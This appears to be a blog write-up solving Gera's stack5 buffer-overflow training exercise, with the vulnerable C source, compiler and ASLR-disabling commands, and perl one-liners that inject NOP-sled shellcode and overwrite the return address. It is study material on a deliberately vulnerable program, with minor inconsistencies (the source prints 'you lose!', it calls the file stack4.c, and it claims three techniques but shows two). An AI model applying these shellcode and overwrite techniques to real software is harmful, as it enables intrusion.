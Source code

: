 Gera's Warming Up on Stack #5 - Solutions
=========================================
date: 05/Jan/2013
summary: Solutions for Gera's Warming up on Stack #5 program.
tags: exploit, ctf

## Introduction

Following is the part 5 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by Gerardo 'gera' Richarte at the [Insecure Programming by example](http://pages.cs.wisc.edu/~riccardo/sec/) page.

This post follows the [Gera's Warming Up on Stack #4 - Solutions](https://7h3ram.github.io/posts/20130104_geras-wuos-stack4-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack5.c](http://pages.cs.wisc.edu/~riccardo/sec/stack5.html) program:

```c
/* stack5.c                                     *
 * specially crafted to feed your brain by gera */
int main() {
    int cookie;
    char buf[80];
    printf(*buf: %08x cookie: %08x\n*, &buf, &cookie);
    gets(buf);
    if (cookie == 0x000a0d00)
        printf(*you lose!\n*);
}
```

The above program too accepts user-input through the gets function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it print the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1. Since it is defined prior to `buf`, the `cookie` would be placed at a higher memory address on the program stack, just below the saved registers from the function prologue
2. The `buf` character array would be at an offset of at least 80B from `cookie`
3. The `gets` call would accept unbounded user-input within `buf` array and hence it provides a mechanism to alter the call stack contents
4. Interestingly, the `you win!` statement is missing from this example. As such, gaining control over `cookie` or EIP alone won't help with the completion of this example.

Stack layout for [stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are a few solutions I could think of to get the `you win!` message printed:

- Solution #1: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address
- Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

## Solutions
### Solution #1: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address

Here's the GCC commandline to prepare [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) for Solution #1:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack5 stack5.c 2>/dev/null ; readelf -l stack5 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
#
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
#
# perl -e 'print *\x90*x51 . *\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21* . *\xc4\xf4\xff\xbf*' | ./stack5
buf: bffff4c4 ``cookie``: bffff514
you win!#
```

### Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Lets get straight to the exploitation:

```
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack5
[+] WINCODE: 0xbffff726
#
# perl -e 'print *\x90*x88 . *\x26\xf7\xff\xbf*' | ./stack5
buf: bffff4c4 ``cookie``: bffff514
you win!
```

So, we have now successfully exploited the [stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html) program through three different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

## Conclusion

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.

This was the last post in the `Geras' Warming Up on Stack` series. I plan to start another series for `Gera's Advanced Buffer Overflows` examples. Stay tuned for further updates.
